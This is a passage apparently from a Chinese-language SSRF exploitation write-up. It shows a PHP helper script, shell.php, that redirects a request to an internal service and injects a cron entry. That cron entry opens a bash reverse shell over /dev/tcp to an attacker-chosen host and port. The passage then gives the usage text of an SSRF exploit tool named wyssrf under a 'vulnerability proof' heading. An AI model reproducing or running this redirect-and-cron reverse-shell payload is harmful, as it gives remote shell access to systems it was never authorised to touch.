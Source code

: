 
  
shell.php 辅助脚本 [shell.php]
  
``` php
  
<?php
  
$ip = $_GET['ip'];
  
$port = $_GET['port'];
  
$bhost = $_GET['bhost'];
  
$bport = $_GET['bport'];
  
$scheme = $_GET['s'];
  
header("Location: $scheme://$ip:$port/set:0:\"\\x0a\\x0a*/1\\x20*\\x20*\\x20*\\x20*\\x20/bin/bash\\x20-i\\x20>\\x26
  
\\x20/dev/tcp/{$bhost}/{$bport}\\x200>\\x261\\x0a\\x0a\\x0a\"");
  
?>
  
```
  

  
## 3. 漏洞证明
  

  
配置利用变量
  

  
`reinhard$ python wyssrf.py `
  
Usage:
  
```
  
    wyssrf config -u <url> -p <param> [--data <data>]
  
    wyssrf config --show
  
    wyssrf plugin --list
  
    wyssrf exploit --list
  
    wyssrf (-i | --interactive)
  
    wyssrf (-h | --help | --version)
  
```
  
